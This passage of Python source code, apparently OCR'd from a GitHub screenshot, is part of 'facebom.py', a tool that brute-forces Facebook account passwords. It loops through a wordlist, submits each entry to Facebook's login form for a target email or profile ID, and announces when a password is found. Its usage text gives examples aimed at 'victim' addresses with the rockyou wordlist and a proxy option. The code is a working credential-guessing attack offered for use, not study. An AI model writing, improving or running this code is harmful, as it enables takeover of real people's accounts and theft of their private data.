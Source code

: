           if issuccess==0:
            print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
            print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Other password or Wordlist File "+gr+":)"+wi)          
          exit(1)
    with open(wordlist) as wfile:
      for passwd in wfile:
        if not passwd.strip() or len(passwd.strip()) < 6: continue
        passwd = passwd.strip()
        try:
          print(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
          br.open("https://facebook.com")
          br.select_form(nr=0)
          br.form["email"]=username
          br.form["pass"]=passwd
          br.method="POST"
          if br.submit().get_data().__contains__('home_icon'):
            issuccess = 1
            print(wi+"==> Login"+gr+" Success\n")
            print(wi+"========================="+"="*len(passwd))
            print(wi+"["+gr+"+"+wi+"] Password "+gr+"Found:"+wi+">>>>[ "+gr+"{}".format(passwd))
            print(wi+"========================="+"="*len(passwd))
            break
          else : print(yl+"==> Login"+rd+" Failed\n")
          loop+=1
        except (KeyboardInterrupt,EOFError):
          print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
          time.sleep(1.5)
          exit(1)
        except Exception as e:
          print(rd+"["+yl+"!"+rd+"] Error: "+yl+str(e)+wi)
          time.sleep(0.60)

    if issuccess ==0:
      print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
      print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Other Wordlist File "+gr+":)"+wi)
    exit(1)

parse = optparse.OptionParser(wi+"""
Usage: python ./facebom.py [OPTIONS...]
-------------
OPTIONS:
       |
    |--------    
    | -t <target email> [OR] <FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID
    |--------
    | -w <wordlist Path>                      ::> Specify Wordlist File Path
    |--------
    | -s <single password>                     ::> Specify Single Password To Check
    |--------
    | -p <Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)
    |--------
    | -g <TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID
-------------
Examples:
        |
     |--------
     | python facebom.py -t victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python Facebom.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python facebom.py -t victim@hotmail.com -w D:\\wordlist.txt -p 35.236.37.121 default(port=8080,80) 
     |--------